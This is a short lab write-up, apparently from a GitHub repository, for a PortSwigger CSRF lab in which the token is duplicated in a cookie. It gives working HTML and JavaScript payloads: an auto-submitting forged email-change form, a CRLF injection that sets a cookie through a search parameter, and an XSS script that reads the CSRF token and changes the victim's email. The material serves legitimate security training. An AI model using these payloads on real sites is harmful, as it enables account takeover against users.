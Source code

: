### CSRF Exploit With CRLF Injection

[Portswigger Lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)

---

### Exploitation Techniques

To exploit a CSRF token + cookie mechanism, two actions are required:

1. **Inject a CSRF cookie into the user's session** (via HTTP header injection)
2. **Send a CSRF attack to the victim**

### HTML Exploit Example

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<script>
        document.forms[0].submit();
</script>
```

### Image-based CSRF Cookie Injection

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```

### XSS Based CSRF Attack

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open('get', '/my-account', true);
  req.send();

  function handleResponse() {
    // Extract the CSRF token from the response
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];

    // Display the token in a popup alert
    alert('Extracted CSRF Token: ' + token);

    // Send a POST request to change the email
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf=' + token + '&email=test@test.com');
  }
</script>
```

---